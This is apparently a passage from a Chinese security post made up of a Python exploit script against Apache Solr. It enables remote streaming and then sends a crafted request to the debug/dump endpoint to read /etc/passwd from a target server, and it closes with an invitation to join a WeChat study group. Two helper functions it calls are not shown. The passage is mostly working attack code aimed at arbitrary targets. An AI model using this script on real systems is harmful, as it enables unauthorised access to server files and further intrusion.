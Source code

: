 ```

#构造查看/etc/passwd的包
def read_etc_passwd(target_url,core_name):
    session = requests.session()
    vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    reqs = session.post(url=vuln_url,headers=headers)

    if reqs.status_code == 200:
        print ("读取成功")
        print (reqs.text)
    else:
        return False

def main(target_url):
    core_name = get_core_name(target_url)

    if core_name:
        if enable_remote_streaming(target_url,core_name):
            read_etc_passwd(target_url,core_name)

if __name__ == "__main__":
    TARGET_URL = "http://ip:8983"
    main(TARGET_URL)


```  
  
  
加下方wx，拉你一起进群学习  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ibZ6uZjjH3v5KP8CaWoS7GAJnWQQxPpibNdibOdl0hc3X6uuBy7rLVOoxS0OSd4vdHWcibFpZg9T9Bx6T7Rn87RoIw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
